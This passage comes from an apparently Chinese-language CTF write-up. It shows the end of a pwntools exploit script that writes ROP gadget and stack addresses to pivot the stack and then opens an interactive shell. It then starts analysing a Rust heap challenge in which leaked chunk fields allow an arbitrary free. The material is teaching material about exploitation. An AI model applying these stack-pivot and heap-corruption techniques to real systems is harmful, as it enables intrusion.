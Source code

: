 ```py
# 修改 Memory 中寄存器地址 register_addr 到 stack_ret_addr，这样修改寄存器就可以修改stack中的值
p.sendline(str(stack_ret_addr % 0x100000000).encode())
p.sendline(str(stack_ret_addr // 0x100000000).encode())

# 修改 *(unsigned int*)ret_addr 为新的栈地址
p.sendline(str(pop_rsp % 0x100000000).encode())
p.sendline(str(pop_rsp // 0x100000000).encode())

# 修改 stack + 1 
p.sendline(str(rop_stack_addr % 0x100000000).encode())
p.sendline(str(rop_stack_addr // 0x100000000).encode())

# 修改 stack + 2
p.sendline(str(pop_rsp % 0x100000000).encode())
p.sendline(str(pop_rsp // 0x100000000).encode())

p.interactive()

```

# [](#header-3)pwn chat_with_me 特解

本题如果黑盒打 pwn，就要多在 free、malloc 等处下几个断点做测试

这个题是一个 rust pwn 题，一开始拿到这个题时做题家会发现，无论是 show 还是 edit，都会展示一串未知的二进制数据. show 函数泄露了程序基址、栈地址、堆地址等信息. 而最主要应该关注的是 edit，因为 edit 能够输入数据，并且在前后有 chunk 到 bin 的变化，因此

![qwb](/image/qwbs8/15.png)  
![qwb](/image/qwbs8/16.png)  

将该二进制数据解成每八字节长度的二进制数据

![qwb](/image/qwbs8/14.png)

观察到发现第二个、第五个、第八个数据就是该 chunk 的地址，推测这几个位置的地址能够直接由于用户的 输入覆盖 导致任意地址 free. 再经过多次测试，发现第五个地址是覆盖的关键，而第四个地址代表长度

```
0xa
0x5651d8238bb0
0x5
0x8             <- 长度
0x5651d8238bb0  <- free 的地址
0x2
0x5651d7afd5b0
0x5651d8236b00
0x0
0x7
```
